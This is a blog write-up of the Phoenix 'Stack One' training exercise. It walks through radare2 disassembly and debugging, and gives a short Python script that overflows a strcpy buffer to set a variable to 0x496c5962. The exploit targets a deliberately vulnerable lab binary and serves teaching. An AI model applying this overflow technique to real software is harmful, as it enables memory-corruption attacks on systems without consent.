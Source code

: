 ```yaml
---
layout: post
title:  "Phoenix Stack One"
categories: exploit-education phoenix x86
---
```


Stack One is very much like the first level with a few minor exceptions, which will be introduced shortly.

The use of `rabin2` is essential to understand a little bit about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-one
arch     x86
baddr    0x8048000
binsz    3651
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

So as to avoid repetition, the information about the binary is almost identical to that of the previous level. To sum up, this is a 32-bit ELF Linux with no protection against stack-based buffer overflows, among others.

Time to disassemble the binary with `radare2`.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-one
{% endhighlight %}

{% highlight nasm %}
[0x08048380]> aas
Cannot analyze at 0x080485f0
[0x08048380]> afl
0x080482fc    1 17           sym._init
0x080484d0    7 277  -> 112  sym.frame_dummy
0x080485b0    5 49           sym.__do_global_ctors_aux
0x080485e1    1 12           sym._fini
0x08048450    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   47 524  -> 625  sym..interp
0x08048380    1 62           entry0
0x08048370    1 6            sym.imp.__libc_start_main
0x080486f8    1 14           loc.__GNU_EH_FRAME_HDR
0x08048714    3 34           sym..eh_frame
0x08048750    1 44           obj.__EH_FRAME_BEGIN
0x080483c0    4 49   -> 40   sym.deregister_tm_clones
0x08048515    6 145          main
0x08048340    1 6            sym.imp.puts
0x08048350    1 6            sym.imp.errx
0x08048320    1 6            sym.imp.strcpy
0x08048330    1 6            sym.imp.printf
0x08048360    1 6            sym.imp.exit
[0x08048380]> s main
[0x08048515]> pdf
/ (fcn) main 145
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483b4
|           0x08048515      8d4c2404       lea ecx, [arg_4h]
|           0x08048519      83e4f0         and esp, 0xfffffff0
|           0x0804851c      ff71fc         push dword [ecx - 4]
|           0x0804851f      55             push ebp
|           0x08048520      89e5           mov ebp, esp
|           0x08048522      53             push ebx
|           0x08048523      51             push ecx
|           0x08048524      83ec50         sub esp, 0x50
|           0x08048527      89cb           mov ebx, ecx
|           0x08048529      83ec0c         sub esp, 0xc
|           0x0804852c      68f0850408     push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x80485f0 ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"
|           0x08048531      e80afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048536      83c410         add esp, 0x10
|           0x08048539      833b01         cmp dword [ebx], 1
|       ,=< 0x0804853c      7f0f           jg 0x804854d
|       |   0x0804853e      83ec08         sub esp, 8
|       |   0x08048541      683c860408     push str.specify_an_argument__to_be_copied_into_the__buffer ; 0x804863c ; "specify an argument, to be copied into the \"buffer\""
|       |   0x08048546      6a01           push 1                      ; 1
|       |   0x08048548      e803feffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804854d      c745f4000000.  mov dword [var_ch], 0
|           0x08048554      8b4304         mov eax, dword [ebx + 4]
|           0x08048557      83c004         add eax, 4
|           0x0804855a      8b00           mov eax, dword [eax]
|           0x0804855c      83ec08         sub esp, 8
|           0x0804855f      50             push eax
|           0x08048560      8d45b4         lea eax, [var_4ch]
|           0x08048563      50             push eax
|           0x08048564      e8b7fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x08048569      83c410         add esp, 0x10
|           0x0804856c      8b45f4         mov eax, dword [var_ch]
|           0x0804856f      3d62596c49     cmp eax, 0x496c5962
|       ,=< 0x08048574      7512           jne 0x8048588
|       |   0x08048576      83ec0c         sub esp, 0xc
|       |   0x08048579      6870860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x8048670 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x0804857e      e8bdfdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048583      83c410         add esp, 0x10
|      ,==< 0x08048586      eb14           jmp 0x804859c
|      |`-> 0x08048588      8b45f4         mov eax, dword [var_ch]
|      |    0x0804858b      83ec08         sub esp, 8
|      |    0x0804858e      50             push eax
|      |    0x0804858f      68b4860408     push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962 ; 0x80486b4 ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"
|      |    0x08048594      e897fdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x08048599      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048586
|      `--> 0x0804859c      83ec0c         sub esp, 0xc
|           0x0804859f      6a00           push 0
\           0x080485a1      e8bafdffff     call sym.imp.exit           ; void exit(int status)
{% endhighlight %}

Below is the output of `agf`, which outputs the basic blocks function graph.

{% highlight nasm %}
[0x08048515]> agf
[0x08048515]>  # int main (int argc, char **argv, char **envp);
                   .---------------------------------------------------------------------------------------.
                   |  0x8048515                                                                            |
                   | (fcn) main 145                                                                        |
                   |   int main (int argc, char **argv, char **envp);                                      |
                   | ; var int32_t var_4ch @ ebp-0x4c                                                      |
                   | ; var int32_t var_ch @ ebp-0xc                                                        |
                   | ; arg int32_t arg_4h @ esp+0x4                                                        |
                   | ; DATA XREF from entry0 @ 0x80483b4                                                   |
                   | lea ecx, [arg_4h]                                                                     |
                   | and esp, 0xfffffff0                                                                   |
                   | push dword [ecx - 4]                                                                  |
                   | push ebp                                                                              |
                   | mov ebp, esp                                                                          |
                   | push ebx                                                                              |
                   | push ecx                                                                              |
                   | sub esp, 0x50                                                                         |
                   | mov ebx, ecx                                                                          |
                   | sub esp, 0xc                                                                          |
                   | ; sym..rodata                                                                         |
                   | ; 0x80485f0                                                                           |
                   | ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"         |
                   | push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education    |
                   | ; int puts(const char *s)                                                             |
                   | call sym.imp.puts;[oa]                                                                |
                   | add esp, 0x10                                                                         |
                   | cmp dword [ebx], 1                                                                    |
                   | jg 0x804854d                                                                          |
                   `---------------------------------------------------------------------------------------'
                           f t
                           | |
                           | '--------------------------------------------.
    .----------------------'                                              |
    |                                                                     |
.----------------------------------------------------------------.    .---------------------------------------------.
|  0x804853e                                                     |    |  0x804854d                                  |
| sub esp, 8                                                     |    | mov dword [var_ch], 0                       |
| ; 0x804863c                                                    |    | mov eax, dword [ebx + 4]                    |
| ; "specify an argument, to be copied into the \"buffer\""      |    | add eax, 4                                  |
| push str.specify_an_argument__to_be_copied_into_the__buffer    |    | mov eax, dword [eax]                        |
| ; 1                                                            |    | sub esp, 8                                  |
| push 1                                                         |    | push eax                                    |
| ; void errx(int eval)                                          |    | lea eax, [var_4ch]                          |
| call sym.imp.errx;[ob]                                         |    | push eax                                    |
`----------------------------------------------------------------'    | ; char *strcpy(char *dest, const char *src) |
                                                                      | call sym.imp.strcpy;[oc]                    |
                                                                      | add esp, 0x10                               |
                                                                      | mov eax, dword [var_ch]                     |
                                                                      | cmp eax, 0x496c5962                         |
                                                                      | jne 0x8048588                               |
                                                                      `---------------------------------------------'
                                                                              f t
                                                                              | |
                                                                              | '-------------------.
              .---------------------------------------------------------------'                     |
              |                                                                                     |
          .--------------------------------------------------------------------------------.    .------------------------------------------------------------------------------.
          |  0x8048576                                                                     |    |  0x8048588                                                                   |
          | sub esp, 0xc                                                                   |    | mov eax, dword [var_ch]                                                      |
          | ; 0x8048670                                                                    |    | sub esp, 8                                                                   |
          | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                                     |
          | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x80486b4                                                                  |
          | ; int puts(const char *s)                                                      |    | ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"       |
          | call sym.imp.puts;[oa]                                                         |    | push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962    |
          | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                             |
          | jmp 0x804859c                                                                  |    | call sym.imp.printf;[od]                                                     |
          `--------------------------------------------------------------------------------'    | add esp, 0x10                                                                |
              v                                                                                 `------------------------------------------------------------------------------'
              |                                                                                     v
              |                                                                                     |
              '------------------------------------------------------------------.                  |
                                                                                 | .----------------'
                                                                                 | |
                                                                           .-----------------------------------.
                                                                           |  0x804859c                        |
                                                                           | ; CODE XREF from main @ 0x8048586 |
                                                                           | sub esp, 0xc                      |
                                                                           | push 0                            |
                                                                           | ; void exit(int status)           |
                                                                           | call sym.imp.exit;[oe]            |
                                                                           `-----------------------------------'
{% endhighlight %}

Unlike the previous level, the input is not read from STDIN, but, rather, is passed as an argument to the binary. Also, the `gets` call is replaced by `strcpy`, which also allows stack-based buffer overflows considering that it does not restrict the size of bytes to be copied.

The buffer's size is still 64 bytes and we need to overflow the stack, so that the value of the local variable `var_ch` is overwritten with `0x496c5962`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"\x62\x59\x6c\x49")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-one `cat pattern`
{% endhighlight %}

In order to verify the stack contents before and after the `strcpy` call, a breakpoint is needed at the address of that call.

{% highlight nasm %}
[0xf7f20d4b]> aas
Cannot analyze at 0x080485f0
[0xf7f20d4b]> db 0x08048564
[0xf7f20d4b]> dc
Welcome to phoenix/stack-one, brought to you by https://exploit.education
hit breakpoint at: 8048564
{% endhighlight %}

The value of `var_ch` before the call is:

{% highlight nasm %}
[0xf7eed929]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x00000000                                   ....
{% endhighlight %}

The stack before the call:

{% highlight nasm %}
[0x08048564]> dr
eax = 0xffa8ae6c
ebx = 0xffa8aed0
ecx = 0xffa8ada0
edx = 0x00000000
esi = 0xffa8af44
edi = 0x00000002
esp = 0xffa8ae50
ebp = 0xffa8aeb8
eip = 0x08048564
eflags = 0x00000292
oeax = 0xffffffff
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x0000005c  ............\...
0xffa8ae70  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8ae80  0x00000011 0xf7f5819c 0x00000000 0x080482cc  ................
0xffa8ae90  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8aea0  0x00000000 0x00000000 0x00000000 0x00000000  ................
{% endhighlight %}

and after the call:

{% highlight nasm %}
[0x08048564]> dso
hit breakpoint at: 8048569
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x58585858  ............XXXX
0xffa8ae70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8aea0  0x58585858 0x58585858 0x58585858 0x496c5962  XXXXXXXXXXXXbYlI
{% endhighlight %}

Note that the value of the local variable `var_ch` has been overwritten, as is shown below:

{% highlight nasm %}
[0x08048564]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x496c5962                                   bYlI
{% endhighlight %}

Continuing with the execution:

{% highlight plaintext %}
[0x08048564]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level has many similarities with the first level, but with one noteable difference. That is, the objective was not to simply overwrite the value of a local variable, but to overflow the stack such that the variable contains a specific value.